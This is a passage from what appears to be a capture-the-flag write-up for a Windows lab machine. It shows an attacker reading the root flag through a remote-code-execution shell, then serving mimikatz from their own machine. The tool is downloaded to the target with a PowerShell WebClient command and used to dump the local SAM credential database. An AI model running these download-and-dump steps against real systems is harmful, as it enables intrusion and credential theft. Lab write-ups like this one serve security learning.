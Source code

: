 ## Retrieve root flag

In CTF's a root flag is often located on the Administrator's Desktop (if it's a Windows machine). So I checked the directory, using the RCE_Shell I got from the Exploit.

```powershell
RCE_SHELL$ dir C:\users\administrator\desktop
 Volume in drive C has no label.
 Volume Serial Number is 14AF-C52C

 Directory of C:\users\administrator\desktop

11/27/2019  07:15 PM    <DIR>          .
11/27/2019  07:15 PM    <DIR>          ..
11/27/2019  07:15 PM                37 root.txt.txt
               1 File(s)             37 bytes
               2 Dir(s)  19,504,635,904 bytes free

RCE_SHELL$ more C:\users\administrator\desktop\root.txt.txt
THM{ **redacted to not ruin the fun** }
```

## "Lab" user NTLM hash

I already have the necessary permissions (again: I'm running as `NT Authority\SYSTEM`). To retrieve the NTLM hash, I chose to spin up a simple local webserver on my Kali machine, to download mimikatz to the target system.

```bash
# in another terminal: spin up the webserver
python3 -m http.server 80
```

Then in the Exploit shell:

```powershell
# download mimikatz using PowerShell
RCE_SHELL$ powershell (New-Object System.Net.WebClient).DownloadFile(\"http://10.14.85.51/mimikatz.exe\", \"mimikatz.exe\")

# dump the local SAM database using mimikatz
RCE_SHELL$ mimikatz "lsadump::sam" exit

  .#####.   mimikatz 2.2.0 (x86) #19041 Sep 19 2022 17:43:26
 .## ^ ##.  "A La Vie, A L'Amour" - (oe.eo)
 ## / \ ##  /*** Benjamin DELPY `gentilkiwi` ( benjamin@gentilkiwi.com )
 ## \ / ##       > https://blog.gentilkiwi.com/mimikatz
 '## v ##'       Vincent LE TOUX             ( vincent.letoux@gmail.com )
  '#####'        > https://pingcastle.com / https://mysmartlogon.com ***/

mimikatz(commandline) # lsadump::sam
Domain : BLUEPRINT
SysKey : 147a48de4a9815d2aa479598592b086f
Local SID : S-1-5-21-3130159037-241736515-3168549210

SAMKey : 3700ddba8f7165462130a4441ef47500

RID  : 000001f4 (500)
User : Administrator
  Hash NTLM: **redacted - to not spoil the fun**

RID  : 000001f5 (501)
User : Guest

RID  : 000003e8 (1000)
```